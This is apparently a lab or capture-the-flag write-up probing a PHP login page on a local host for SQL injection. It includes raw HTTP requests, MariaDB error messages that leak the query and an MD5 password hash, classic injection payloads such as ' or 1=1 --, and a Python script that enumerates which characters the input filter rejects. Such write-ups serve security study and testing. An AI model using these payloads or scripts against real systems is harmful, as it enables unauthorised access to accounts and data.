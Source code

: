 response: test: admin@localhost (by test)

## `Login.php` -> Sql Injetion


```
POST /login.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 22
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=d181840f69c38ed49b0c9a1bb2c6a24b
Connection: keep-alive

username='&password=we
```

```
<br />
<b>Notice</b>:  Invalid query: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'ff1ccf57e98c817df1efcd9fe44a8aeb'' at line 1 in <b>/var/www/html/login.php</b> on line <b>63</b><br />
```

- Payload `username=' or 1=1 -- a&password=we` -> `Username or password are in the wrong format.`
- Payload `username='+and&password=we`:

```
Invalid query: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'ans' AND password = 'ff1ccf57e98c817df1efcd9fe44a8aeb'' at line 1 in <b>/var/www/html/login.php
```

Disclosed mariadb backend, and hash format MD5, in fact the string ff1ccf57e98c817df1efcd9fe44a8aeb corresponds to `we`

Invalid characters

Enumerating invalid chars:

```python
import requests as r
import string

url = "http://172.17.0.2/login.php"
bad = "Username or password are in the wrong format."

for x in string.printable:
    response = r.post(url=url, data={"username":x, "password":"we"})
    
    if bad in response.text:
        print(f"Character {x} ({ord(x)})not admitted")

```
